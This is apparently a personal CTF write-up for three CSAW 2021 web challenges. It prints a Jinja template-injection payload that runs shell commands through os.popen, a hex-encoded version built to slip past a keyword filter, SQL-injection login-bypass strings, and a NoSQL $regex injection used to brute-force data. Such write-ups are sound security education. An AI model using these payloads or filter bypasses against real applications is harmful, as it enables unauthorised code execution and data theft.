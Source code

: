 ```yaml
---
title: "CSAW - 2021"
date: 2021-09-14T13:13:43+07:00
draft: true 
---
```


# Ninja
# Type: SSTI

I test `value` param with `{{7*7}}` and it returns `49`.

```
http://web.chal.csaw.io:5000/submit?value={{7*7}}
```

Okay, RCE timeeeeee~

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}
```
This payload import class `os` and executes `ls -la` from popen. Send this payload and we get the response:
```
Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base
```

It's not hard to bypass this filters
- With `_` we can bypass by `\x5f` (hex encode)
- With `os` we can bypass by `\x6f\x73`
- With `.` we can bypass by `[]` or `attr`

But it still block my request, so I hex encode all string and it works :))
```python
{{
    request
    |attr('\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e')
    |attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f')
    |attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f')
    |attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f')('\x6f\x73')
    |attr('\x70\x6f\x70\x65\x6e')('cat flag.txt')
    |attr('read')()
}}
```
it equivalents to
```python
{{
    request
    |attr('application')
    |attr('__globals__')
    |attr('__getitem__')('__builtins__')
    |attr('__getitem__')('__import__')('os')
    |attr('popen')('cat flag.txt')
}}
```

And we got flag here...

# no-pass-needed
# Type: SQL injection

I'm so lucky firstblood this challenge when i test my familiar payload, and it works.

```
username=admin'or(1)--+-&password=a
```
This challenge replace some strings. When you duplicate this you can bypass it easily
```
username=adadminmin'--&password=a
```
And we got flag here...

# securinotes
# Type: nosql injection

This chall is closed, so i only tell you idea to solve it.

Register one account and login, then catch this request via burpsuite and I found some public Meteor methods (`notes.count`, `notes.add`, `notes.remove`)

```javascript
// $ne is "not equal"
[{"body":{"$ne":""}]

[{"body":{"$regex":"flag.*"}]
// It return true, else when you use other char it will return false
// Here we can change $ne to $regex to bruteforce the flag

[{"body":{"$regex":"flag{`next_char`.*"}]
```

I use console from devtools to brute it, and got flag...